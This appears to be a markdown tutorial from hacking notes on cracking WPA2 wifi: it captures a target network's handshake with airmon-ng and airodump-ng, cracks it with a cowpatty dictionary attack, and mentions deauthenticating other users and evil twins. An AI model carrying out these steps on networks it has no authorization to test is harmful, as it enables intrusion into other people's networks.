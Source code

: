# Wifi


There are quite a few different security mechanism on wifi. And each of them require a different tactic. This article outlines the different strategies quite well. http://null-byte.wonderhowto.com/how-to/hack-wi-fi-selecting-good-wi-fi-hacking-strategy-0162526/


This is a great guide to the many different ways to hack wifi.

### Checking what networks are avalible

`sudo iwlist wlan0 scanning` - scans for wifis

### Hacking WPA2-wifis Using airmon-ng and cowpatty

What we are going to to here it basically just to record the 4-way handshake and then run a dictionary attack on it. The good part about this strategy is that you won't have to interfere to much with the network and thereby risk of taking down their wifi. The bad part is that if you run a dictionary attack there is always the possibility that the password just isn't in the list.

1. Start airmon-ng
 - `airmon-ng start wlan0`
 - This puts the network card in monitoring mode.
 - This will create a network interface that you can use to monitor wifi-action. This interface is usually called mon0 or something like that. You see the name when you run the command.

2. Run airodump to see what is passing through the air
 - Now we want to see what access points are available to us. 
 - `airodump-ng -i mon0`
 - This would output something like this:

```
CH 13 ][ Elapsed: 6 s ]

BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

E8:DE:27:31:15:EE  -62       40       54    0  11  54e  WPA2 CCMP   PSK  myrouter
A7:B6:68:D4:1D:91  -80        7        0    0  11  54e  WPA2 CCMP   PSK  DKT_D24D81
B4:EE:B4:80:76:72  -84        5        0    0   6  54e  WPA2 CCMP   PSK  arrisNetwork

BSSID       STATION            PWR   Rate    Lost    Frames Probe

E8:DE:27:31:15:EE  D8:A2:5E:8E:41:75  -57    0e- 1    537     14
```

So what is all this?
`BSSID` - This is the mac-address of the access point.
`PWR` - Signal strength. The higher (closer to 0) the strength the stronger is the signal. In the example above it is myrouter that has the strongest signal.
`Beacon` - This is kind of like a packet that the AP sends out periodically. The beacon contains information about the network. It contains the SSID, timestamp, beacon interval. If you are curious you can just analyze the beacons in wireshark after you have captured them.
`#Data` - The number of data-packets that has been sent.
`#/s` - Number of data-packets per second.
`CH` - Channel
`MB` - Maximum speed the AP can handle. 
`ENC` - Encryption type
`CIPHER` - One of CCMP, WRAP, TKIP, WEP, WEP40, or WEP104. Not mandatory, but TKIP is typically used with WPA and CCMP is typically used with WPA2.
`PSK` - The authentication protocol used. One of MGT (WPA/WPA2 using a separate authentication server), SKA (shared key for WEP), PSK (pre-shared key for WPA/WPA2), or OPN (open for WEP).
`ESSID` - The name of the network

Then we have another section of information.
`Station` - MAC address of each associated station or stations searching for an AP to connect with. Clients not currently associated with an AP have a BSSID of “(not associated)”. So yeah, this basically means that we can see what devices are looking for APs. This can be useful if we want to create an evil twin or something like that.

3. Find the network you want to access.
 - `airodump-ng --bssid A7:B6:68:D4:1D:91 -c 11 -w cowpatty mon0`
 - So this command will record or traffic from the device with that specific MAC-address. -c defines the channel. and `-w cowpatty` means that we are going to save the packet capture with that name. 
Now we just have to wait for a user to connect to that network. And when he/she does we will record that handshake.
We know that we have recorded a handshake when this appears
`CH 11 ][ Elapsed: 19 hours 52 mins ][ 2016-05-19 17:14 ][ WPA handshake: A7:B6:68:D4:1D:91`
Now we can exit airodump, and we can see that we have a cap-file with the name cowpatty-01.cap. That is our packet-capture, and you can open it and study it in wireshark if you like.

4. Crack the password.
- Now that we have the handshake recorded we can start to crack it. We can do that by using the program cowpatty.
- `cowpatty -f /usr/share/wordlists/rockyou.txt -r cowpatty-01.cap -s DKT_D24D81`
Then we just hope for the best.


##More
Kicking other people off the network to capture handshakes faster:
http://www.aircrack-ng.org/doku.php?id=newbie_guide

http://lewiscomputerhowto.blogspot.cl/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html

http://radixcode.com/hackcrack-wifi-password-2015-step-step-tutorial/

